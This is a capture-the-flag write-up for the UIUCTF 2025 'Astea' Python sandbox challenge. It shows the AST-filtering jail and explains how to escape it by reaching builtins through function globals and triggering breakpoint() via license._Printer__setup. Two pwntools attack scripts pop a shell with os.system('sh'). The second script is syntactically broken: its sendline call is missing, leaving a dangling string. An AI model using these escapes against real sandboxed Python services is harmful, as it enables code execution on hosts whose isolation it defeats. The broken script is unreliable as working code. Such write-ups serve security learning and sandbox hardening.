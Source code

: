 # UIUCTF 2025 Astea

```python
import ast

def safe_import():
  print("Why do you need imports to make tea?")

def safe_call():
  print("Why do you need function calls to make tea?")

class CoolDownTea(ast.NodeTransformer):
  def visit_Call(self, node: ast.Call) -> ast.AST:
    return ast.Call(func=ast.Name(id='safe_call', ctx=ast.Load()), args=[], keywords=[])
  
  def visit_Import(self, node: ast.AST) -> ast.AST:
    return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))
  
  def visit_ImportFrom(self, node: ast.ImportFrom) -> ast.AST:
    return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))
  
  def visit_Assign(self, node: ast.Assign) -> ast.AST:
    return ast.Assign(targets=node.targets, value=ast.Constant(value=0))
  
  def visit_BinOp(self, node: ast.BinOp) -> ast.AST:
    return ast.BinOp(left=ast.Constant(0), op=node.op, right=ast.Constant(0))
  
code = input('Nothing is quite like a cup of tea in the morning: ').splitlines()[0]

cup = ast.parse(code)
cup = CoolDownTea().visit(cup)
ast.fix_missing_locations(cup)

exec(compile(cup, '', 'exec'), {'__builtins__': {}}, {'safe_import': safe_import, 'safe_call': safe_call})
```

Requirements:

1. No function call: Use `f"{license}" for license._Printer__setup in [function_to_call]]` to call `function_to_call`
2. No builtins: Use `.__builtins__` of the given function to access builtins dict, or `.__globals__["__builtins__"]` of the given function to access builtins module
3. No assignment: Use `[a:=b]` for assignment

Inspired by [Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/#running-functions-and-methods-without-parenthesis).

We want to call `breakpoint()`, so:

1. Get builtins from `safe_import`: `builtins = safe_import.__globals__["__builtins__"]`, to avoid assignment, use `[builtins:=safe_import.__globals__["__builtins__"]]`; alternatively, use `[builtins:=safe_import.__builtins__]` which is a dict instead of module
2. Get license and breakpoint from builtins module: `[...,breakpoint:=builtins.breakpoint,license:=builtins.license]`, or from builtins dict: `[...,breakpoint:=builtins["breakpoint"],license:=builtins["license"]]`
3. Call breakpoint via `license._Printer__setup`: `[f"{license}" for license._Printer__setup in [breakpoint]]`

Attack script using builtins module `safe_import.__globals__["__builtins__"]`:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "astea.py"])
p.recvuntil(b"morning:")
p.sendline(
    '[builtins:=safe_import.__globals__["__builtins__"],breakpoint:=builtins.breakpoint,license:=builtins.license,[f"{license}" for license._Printer__setup in [breakpoint]]]'.encode()
)
p.recvuntil(b"(Pdb) ")
p.sendline(b"import os")
p.sendline(b"os.system('sh')")

p.interactive()
```

Using builtins dict `safe_import.__builtins__`:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "astea.py"])
p.recvuntil(b"morning:")
    #'[builtins:=safe_import.__globals__["__builtins__"],breakpoint:=builtins.breakpoint,license:=builtins.license,[f"{license}" for license._Printer__setup in [breakpoint]]]'.encode()
    '[builtins:=safe_import.__builtins__,breakpoint:=builtins["breakpoint"],license:=builtins["license"],[f"{license}" for license._Printer__setup in [breakpoint]]]'.encode()
)
p.recvuntil(b"(Pdb) ")
p.sendline(b"import os")
p.sendline(b"os.system('sh')")

p.interactive()
```

What is `license._Printer__setup`?

```python
>>> type(license)
<class '_sitebuiltins._Printer'>
>>> license._Printer__setup
<bound method _Printer.__setup of Type license() to see the full license text>
```

It corresponds to `_setup(self)` function of `class _Printer` in [_sitebuiltins.py](https://github.com/python/cpython/blob/811acc85d5b001e0bef6ac2e6b499e7c4f149262/Lib/_sitebuiltins.py#L44). It is called when we convert `license` to `str`:

```python
def __repr__(self):
    self.__setup() # <- calls license._Printer__setup
    if len(self.__lines) <= self.MAXLINES:
        return "\n".join(self.__lines)
    else:
        return "Type %s() to see the full %s text" % ((self.__name,)*2)
```
